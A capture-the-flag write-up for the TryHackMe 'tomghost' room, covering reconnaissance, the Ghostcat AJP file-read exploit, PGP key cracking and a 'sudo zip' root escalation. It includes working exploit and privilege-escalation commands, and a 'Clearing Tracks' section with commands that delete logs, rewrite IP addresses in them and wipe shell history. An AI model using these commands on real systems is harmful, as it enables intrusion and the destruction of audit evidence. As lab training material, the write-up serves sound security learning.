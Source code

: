 ```yaml
---
title: "THM:tomghost"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/tomghost"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,gpg2john,linpeas,privesc,cron
---
```

# THM:tomghost

URL: https://tryhackme.com/room/tomghost [Easy]

## Reconnaissance

Description of the room:

> Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found on `:8080`:

```python
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Interesting folders found on `:8009`:

This one is odd. In a browser, it says:

```
This page isn’t working
10.10.58.18 didn’t send any data.
ERR_EMPTY_RESPONSE
```

Which seems like there is a web server there, but it just didn't respond with anything. However, over `http` and `https`, `gobuster` couldn't connect to the web server:

```python
Error: error on running gobuster: unable to connect to http://10.10.58.18:8009/: Get "http://10.10.58.18:8009/": EOF
```

Also see: [gobuster-8080.log](gobuster-8080.log) / [gobuster-8009.log](gobuster-8009.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x -p 8080`

Not much of anything interesting info found on `:8080`:

```python
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /favicon.ico: identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community. See: https://en.wikipedia.org/wiki/Favicon
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2104
+ /manager/manager-howto.html: Tomcat documentation found. See: CWE-552
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found.
+ /manager/status: Default Tomcat Server Status interface found.
+ /host-manager/status: Default Tomcat Server Status interface found.
+ 8074 requests: 0 error(s) and 13 item(s) reported on remote host
```

Interesting info found on `:8009`:

Similar situation with `gobuster`, Nikto couldn't connect.

```python
- Nikto v2.5.0
---------------------------------------------------------------------------
---------------------------------------------------------------------------
+ 0 host(s) tested
```

Also see: [nikto-8080.log](nikto-8080.log) / [nikto-8009.log](nikto-8009.log)

## Gaining Access

I consulted [this writeup](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23) which explains that "Ghostcat" (the name of the room) is the name of a vulnerability in Apache Jserv Protocol (AJP) that is running on port 8009.

### Unprivileged Access

By using the `ajpShooter.py` exploit from [here](https://github.com/00theway/Ghostcat-CNVD-2020-10487), we can run a command line like this:

```bash
python3 ajpShooter.py http://10.10.58.18:8080/demo 8009 /WEB-INF/web.xml read
```

That then shows you a plausible username:password combination. When you try that combination over SSH, you can get in with unprivileged access.

> ***Note:** Looking around there is a `merlin` folder until `/home/` with a readable folder structure. Not writable though. Also note that not much came up in linpeas either.*


## Privilege Escalation

This is somewhat tedious to put together. The kill-chain is:

1. **Download** the `credential.pgp` and `tryhackme.asc` to your local workstation (ex: run `python3 -m http.server` on the target, to serve those files; retrieve them with a browser)
1. **Convert** The `tryhackme.asc` file is a PGP private key. Run `gpg2john ./tryhackme.asc > ./tryhackme.asc.hash` to get it into John the Ripper format.
1. **Run John the Ripper** with the RockYou wordlist to crack the password for that private key (ex: run `john --wordlist=/opt/share/wordlist/rockyou.txt ./tryhackme.asc.hash`)
1. **Import that password into PGP** with: `gpg --import ./tryhackme.asc` - it will prompt you for a password.
1. **Decrypt the `credential.pgp` file** with `gpg --decrypt ./credential.pgp` - ir will prompt you for that same password you got from John the Ripper.
1. **SSH as `merlin`** Next, that credential that you just decrypted, is for `merlin`. So, SSH in now as `merlin`.
1. **Check `sudo`** As `merlin`, if we run `sudo -l` to see what we can do as sudo, we see that we can run `/usr/bin/zip`. This is notable because the `zip` program allows you to pass it a `--unzip-command "<command to run>"`. So, if we're running as `root` via `sudo` at that time, and if the `--unzip-command` opens a shell, we should get a root shell.

Putting that all together, we can finally run something like this, logged in as `merlin`:

```bash
sudo zip archive ./user.txt -T --unzip-command="sh -c /bin/bash"
```

We are now running as root and can get our final flag from the `/root/` folder.


## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/merlin/.bash_history`
>  
> `cat /dev/null > /home/skyfrick/.bash_history`

## Summary

Completed: [2023-07-22 21:25:01]